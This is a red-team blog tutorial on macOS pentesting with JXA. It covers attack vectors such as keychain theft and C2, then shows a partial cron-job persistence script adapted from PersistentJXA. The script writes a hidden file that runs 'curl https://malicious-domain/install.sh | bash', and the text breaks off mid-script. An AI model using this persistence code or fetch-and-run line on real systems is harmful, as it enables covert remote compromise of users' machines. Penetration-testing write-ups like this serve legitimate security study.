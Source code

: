 ```yaml
---
title: "Pentesting macOS"
author:
  name: Miguel Guerrero
  link: https://mikemighthack.github.io/blog
date: 2025-01-30 18:00:00 +0105
categories: [masOS, Red Team]
tags: [RT]
math: true
mermaid: true
image:
  src: /assets/images/tutorials/Macos/header.png
---
```


## Scenario
The other day, I participated in an assumed compromise scenario where we simulated a security breach on an employee's MacBook. In this exercise, we executed a payload without the user's knowledge, which established a connection to our C2— and that's where the fun began.

Since I didn’t have much experience with macOS devices, I started researching and came across JXA (JavaScript for Automation) on macOS.

## JXA (JavaScript for Automation)
JXA (JavaScript for Automation) is a macOS feature that allows automation using JavaScript instead of AppleScript. It provides deep system access, enabling users to interact with applications, execute shell commands, and manipulate files. While useful for automation, it also presents security risks.

Since JXA is built into macOS, attackers can use it stealthily without needing additional downloads. Some key attack vectors include:

- Fileless Malware – JXA scripts can run in memory, evading traditional detection.
- Bypassing Security Controls – Legitimate Apple-signed scripts can slip past antivirus solutions.
- Credential Theft – Attackers can interact with macOS Keychain or capture keystrokes.
- Persistence – Scripts can modify system settings to ensure continued execution.
- C2 Communication – JXA enables remote command execution and data exfiltration.

## JXA Cron Job for Persistence 
While researching ways to achieve persistence on the victim's machine, I came across this repository: [PersistentJXA](https://github.com/D00MFist/PersistentJXA).

This repository contains multiple JavaScript scripts implementing different persistence techniques for macOS.

In my case, I used the Persistence using CronJobs method. I modified the script to fit my needs, and the final result was as follows:

```js
ObjC.import('Foundation')
ObjC.import('stdlib')
var currentApp = Application.currentApplication();
currentApp.includeStandardAdditions = true;

var userHome = $.getenv('HOME')

var output = ""
try{
//Write cronJobaction to hidden script
var cronJobaction = 'curl https://malicious-domain/install.sh | bash'
var cronFilepath = userHome + "/Public/Drop\ Box/.share.sh"
function writeTextToFile(text, file, overwriteExistingContent) {
        var fileString = file.toString()
```